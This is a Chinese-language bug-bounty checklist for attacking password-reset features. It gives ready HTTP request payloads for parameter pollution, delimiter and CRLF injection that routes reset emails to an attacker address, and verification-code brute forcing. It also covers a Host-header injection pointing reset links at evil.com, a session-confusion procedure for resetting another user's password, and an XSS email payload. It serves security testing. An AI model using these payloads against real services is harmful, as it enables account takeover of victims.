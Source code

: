## 密码找回


### 绕过前端验证

#### 不知道密码
1. 修改响应状态码
```java
响应

...
code: true /success /1
```
2. 抓包后删除（`username=***&pwaasd=***`）
3. 有些系统设定密码是纯数字进入口令修改界面（111111或者222222）

#### 知道密码
1. 响应包是否回显验证码
2. 重置跳转时，是否有id类的参数进行任意用户密码修改

### 邮箱/手机验证码找回
1. 参数污染

```java
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com&email=hacker@mail.com
```

2. 验证码爆破

```java
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com&code=$123456$
```


3. 在参数值中使用分隔符

```java
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com,hacker@mail.com
```

```java
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com%20hacker@mail.com
```

```java
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com|hacker@mail.com
```

```java
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com%00hacker@mail.com
```

4. 响应包中有指定接收端，可修改接收端号码

5. 参数值中没有domain

```java
POST /reset HTTP/1.1
Host: target.com
...

email=victim
```

6. 没有参数的值

```java
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail
```

7. 邮件抄送

```java
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com%0a%0dcc:hacker@mail.com
```

8. 如果body请求中有JSON数据，则添加逗号

```java
POST /newaccount HTTP/1.1
Host: target.com
...

{"email":"victim@mail.com","hacker@mail.com","token":"xxxxxxxxxx"}
```

9. 邮箱密码重置链接是否可被构造

### 请求体字段

1. Find out how the tokens generate 了解令牌如何生成

- Generated based on TimeStamp 基于时间戳生成
- Generated based on the ID of the user 根据用户ID生成
- Generated based on the email of the user 根据用户的电子邮件生成
- Generated based on the name of the user 根据用户名生成

2. 主机标头注入

```java
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com
```

to

```java
POST /reset HTTP/1.1
Host: target.com
X-Forwarded-Host: evil.com
...

email=victim@mail.com
```
受害者将收到重置链接evil.com

3. cookie混淆
```java
大致攻击思路:
1. 用攻击者账号13908080808进入密码找回流程，查收重置验证码、通过校验
2. 输入新密码后提交，拦截中断该请求，暂不发至服务端，这时，PHPSESSID 关联的是13908080808账号;
3. 接着，关闭浏览器的burp代理，新开重置流程的首页，在页面中输入普通账号13908090133后获取短信验证码，这时，PHPSESSID 已关联成13908090133了;
4. 最后，放行之前中断的请求，放至服务端，逻辑上，可以成功重置13908090133的密码。
```

### 补充
尝试跨站点脚本（XSS）的形式
[XSS](../../知识积累/XSS.md)
```java
"<svg/onload=alert(1)>"@gmail.com
```


### 参考
- [github](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Checklist/Forgot%20Password.md)
- [10 Password Reset Flaws](https://anugrahsr.github.io/posts/10-Password-reset-flaws/)
- [Frooti](https://twitter.com/HackerGautam/status/1502264873287569414)
